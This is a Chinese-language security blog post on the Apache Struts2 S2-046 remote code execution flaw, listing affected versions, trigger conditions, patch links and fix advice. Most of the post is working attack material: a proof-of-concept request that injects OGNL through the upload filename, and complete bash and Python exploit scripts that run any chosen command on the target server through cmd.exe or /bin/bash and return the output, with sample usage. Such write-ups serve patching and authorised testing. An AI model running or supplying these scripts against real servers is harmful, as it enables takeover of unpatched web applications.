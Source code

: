 ```yaml
---
title: Struts2-046漏洞
date: 2017-03-21 10:41:05
comments: true
tags: 
- struts2漏洞
- struts2 Poc
categories: web安全
password:
copyright: true
---
```

<blockquote class="blockquote-center">屋漏偏逢连夜雨，船迟又遇打头风</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*
　　Apache Struts 2 2.3.32之前的2 2.3.x版本和2.5.10.1之前的2.5.x版本中的Jakarta Multipart解析器存在安全漏洞，该漏洞源于程序没有正确处理文件上传。攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程任意代码执行，S2-046与S2-045漏洞属于同一类型，不同向量。如果在之前S2-045漏洞曝光后用户已经升级过官方补丁，这次就不受影响。
<!--more -->

### 触发条件
1.上传文件的大小（由Content-Length头指定）大于Struts2允许的最大大小（2GB）。
2.文件名内容构造恶意的OGNL内容。

### S2-046PoC
```bash
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```
### Exp
#### Sh版
```bash
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```
sh exploit-cd.sh http://xxx.com/action "whoami"

#### Python版
```bash
__author__ = 'hackteam.cn'
import pycurl
import StringIO
import urllib
def tt(url,data):
    sio = StringIO.StringIO()
    c = pycurl.Curl()
    c.setopt(pycurl.URL, url)
    c.setopt(pycurl.REFERER, url)
    c.setopt(pycurl.HTTPHEADER, ['Connection: close', 'Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150', 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36'])
    c.setopt(pycurl.HTTP_VERSION, pycurl.CURL_HTTP_VERSION_1_0)
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.POSTFIELDS, data)
    c.setopt(pycurl.CONNECTTIMEOUT, 300)
    c.setopt(pycurl.TIMEOUT, 300)
    c.setopt(pycurl.WRITEFUNCTION, sio.write)
    try:
        c.perform()
    except Exception, ex:
        pass
    c.close()
    resp = sio.getvalue()
    sio.close()
    return resp

data="-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--\r\n\r\n"
print tt('https://xxx.action',data)
```
### 修复建议
1. 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐）

### 官网公告
https://cwiki.apache.org/confluence/display/WW/S2-045
https://cwiki.apache.org/confluence/display/WW/S2-046


### 补丁地址
Struts 2.3.32：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32 
Struts 2.5.10.1：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1 


### 参考
http://struts.apache.org/docs/s2-045.html
http://struts.apache.org/docs/s2-046.html
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723


欲知Struts2-045请参考：[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
欲知Struts2历史Poc请参数：[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)
